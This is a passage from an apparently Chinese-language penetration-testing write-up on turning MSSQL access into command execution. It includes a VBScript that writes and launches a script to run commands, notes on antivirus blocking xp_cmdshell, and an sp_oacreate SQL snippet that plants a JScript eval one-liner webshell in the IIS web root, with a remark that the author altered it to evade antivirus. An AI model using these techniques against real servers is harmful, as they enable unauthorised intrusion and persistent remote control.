 然后和上面一样写入表里就可以了

这里的 vbs

```
Set write = CreateObject("Scripting.FileSystemObject")
write.CreateTextFile("c:\inetpub\wwwroot\cmd.vbs).WriteLine("Set objShell = CreateObject(""Shell.Application"")"+CHR(13)+"objShell.ShellExecute ""cmd"", ""cmd /c whoami>c:\whoami.txt"", """", ""runas"", 1")
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute "c:\inetpub\wwwroot\cmd.vbs", "", "c:\", "", 0

```

这里顺便写一下，xp_cmdshell 会出现

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCM2rhRvYiccp5Xb0ZEoIicUFs3ZVJrqHUSYibJGVAa8GjUK2bKsWjEt3sw/640?wx_fmt=png)

在执行 xp_cmdshell 的过程中出错。调用'CreateProcess' 失败，错误代码: '5'。

网上查了之后几种说法

1.  没有 cmd
    
2.  没有权限执行 cmd
    
3.  服务器上有杀毒软件
    

没有 cmd 想想也不太可能，没 cmd 系统估计都要出问题，但是还是尝试删除 cmd，03 上面删了会自己恢复，08 删不掉

没有权限执行，这个也尝试了一下，但是没权限配置权限，后来也没继续看了

安装 360 后发现 360 会拦截

经过测试只要 mssql 带起可以执行命令的文件都会拦截，sp_oacreate 也是用不了的，powershell 也不行

暂时没找到什么方法，基本所有执行命令的方法都会被拦截，Agent Job 也不行，因为也要启动 powershell，而且这个还需要启动 mssql 代理，所以这种方法就不复现了

如果服务器上存在 web 服务，可以通过上面那种写 vbs 的方法将 webshell 写入网站根目录，

```
declare @f int,@g int
exec sp_oacreate 'Scripting.FileSystemObject',@f output
EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\wwwroot\shell.aspx',1
EXEC sp_oamethod  @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a+b));%>'

```

一句话需要免杀，网上找了个方法处理一下就过了

0x05 备份 getshell
----------------

**需要知道绝对路径**

testdb 是当前数据库

网上查到两种方法，一种是差异备份一种是 log 备份
